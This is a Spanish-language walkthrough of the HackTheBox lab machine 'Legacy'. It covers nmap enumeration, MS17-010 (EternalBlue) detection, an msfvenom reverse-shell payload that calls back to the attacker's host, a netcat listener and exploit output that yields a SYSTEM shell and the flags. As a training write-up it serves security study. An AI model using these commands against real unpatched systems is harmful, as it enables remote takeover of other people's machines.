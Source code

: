 ```yaml
---
title: HTB - Legacy
published: true
categories: [Windows]
tags: [eJPT, OSCP, Fácil]
---
```


<img src="/assets/HTB/Legacy/legacy.png">

¡Hola!
Vamos a resolver de la máquina `Legacy` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **SMB Enumeration**
- **Eternalblue Exploitation (MS17-010)**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Legacy`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.4
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=42.3 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Windows** debido a su ttl (time to live) correspondiente a 127 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```java
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts

PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```java
nmap -sCV -p135,139,445 10.10.10.4 -oN targeted

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h57m38s, deviation: 1h24m51s, median: 4d23h57m38s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:96:9f:c3 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-11-07T13:45:00+02:00
```
Vemos un Windows XP en los resultados por lo que con la herramienta nmap vamos a realizar un escaneo de vulnerabilidades

```java
❯ nmap --script "vuln and safe" 10.10.10.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-02 11:24 CET
Nmap scan report for 10.10.10.4
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

Nmap nos confirma que la máquina víctima es vulnerable a **Eternal Blue**

### Explotación Eternal Blue

* * *

Para la explotación de esta vulnerabilidad vamos a utilizar el repositorio de GitHub de [k4u5h41](https://github.com/k4u5h41/MS17-010_CVE-2017-0143)

Una vez clonado nos metemos dentro de la carpeta del repositorio y ejecutamos la herramienta `checker.py` para comprobar que no esté parcheado

```java
❯ python2 checker.py 10.10.10.4 445
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```
Lo siguiente será crear un archivo ejecutable malicioso con la herramienta `msfvenom`

```java
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.64 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Para acabar la explotación creamos un listener con netcat escuchando en el puerto 443 y con la herramienta del repositorio clonado `send_and_execute.py` enviamos y ejectuamos el archivo malicioso creado anteriormente

```java
❯ python2 send_and_execute.py 10.10.10.4 shell.exe 445 browser
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86030660
SESSION: 0xe119b940
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe10904b8
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1090558
overwriting token UserAndGroups
Sending file 4O9N3T.exe...
Opening SVCManager on 10.10.10.4.....
Creating service sXzA.....
Starting service sXzA.....
The NETBIOS connection with the remote host timed out.
Removing service sXzA.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

```java
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.4] 1047
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
Hemos conseguido una shell con la máquina víctima y con privilegios de root. Ya sólo nos queda buscar las flags

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `type` nos muestra el contenido.

```bash
#USER
cd c:\
dir /b/s user.txt
C:\Documents and Settings\john\Desktop\user.txt
cd C:\Documents and Settings\john\Desktop
type user.txt
e69af0e4f443de7e3***************
```

```bash
#ROOT
dir /b/s root.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
cd C:\Documents and Settings\john\Desktop
type root.txt
993442d258b0e0ec9***************
```

Hemos completado la máquina **Legacy** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Legacy/pwned.png">

